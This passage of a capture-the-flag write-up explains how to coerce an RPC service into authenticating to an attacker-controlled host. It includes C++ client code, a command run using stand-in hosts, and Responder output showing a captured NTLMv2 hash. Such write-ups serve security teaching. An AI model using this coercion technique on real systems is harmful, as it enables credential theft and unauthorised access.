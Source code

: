 It looks like we have our starting point. There is a high chance we can invoke this remote procedure without authentication. In addition, the input parameter seems to be a file path, so we might be able to coerce the service to authenticate back to us using the impersonated user credentials.

### First contact

I will keep this part rather short because I already explained how one could use the IDL file generated by RpcView to create an RPC client in C/C++ in this post: [From RpcView to PetitPotam](https://itm4n.github.io/from-rpcview-to-petitpotam/).

The only difference resides in the way the binding handle is created. The "protocol sequence" is `ncacn_http`. The "network address" is just the server's hostname. The "endpoint" is the port on which the RPC server is listening locally.

```cpp
RPC_STATUS status;
RPC_WSTR StringBinding = NULL;
RPC_BINDING_HANDLE BindingHandle = NULL;
BOOLEAN bExists;

RpcStringBindingComposeW(NULL, (RPC_WSTR)L"ncacn_http", (RPC_WSTR)L"insobug.insomnihack.ch",
                         (RPC_WSTR)L"8000", NULL, &StringBinding);
RpcBindingFromStringBindingW(StringBinding, &BindingHandle);

InsoRpcFileExists(BindingHandle, L"\\\\your.host.local@80\\share\\foo1234.txt", &bExists);

RpcBindingFree(&BindingHandle);
RpcStringFreeW(&StringBinding);
```

However, rather than hardcoding the values, I created a utility that allows me to specify the parameters on the command line.

```console
C:\Users\lab-user\Downloads\Challenge>Solution.exe coerce insobug.insomnihack.ch 8000 "\\your.host.com@80\share\foo1234.txt"
[*] String Binding: ncacn_http:insobug.insomnihack.ch[8000]
[*] Trying to coerce authentication with path: \\your.host.com@80\share\foo1234.txt
[*] InsoRpcFileExists ret: 0 - 0x00000000 | Exists: 0
```

On our server's end, we can use a tool such as Responder to listen on port `80` and capture the NTLM authentication.

```console
$ sudo reponder -I eth0
[...]
[WebDAV] NTLMv2 Client   : 85.217.161.25
[WebDAV] NTLMv2 Username : INSOBUG-REALIST\Limited
[WebDAV] NTLMv2 Hash     : Limited::INSOBUG-REALIST:61c4bb1fde3d4d85:B389C19E2E93030CDE1B97BD04C80C00:01010000[...]2E00630068000000000000000000
```

> It was also possible to capture the authentication over SMB. However, as explained earlier, some ISPs block SMB traffic over the Internet, so I wanted to make sure that, even in such a case, the challenge could still be solved using WebDAV.
{: .prompt-info }
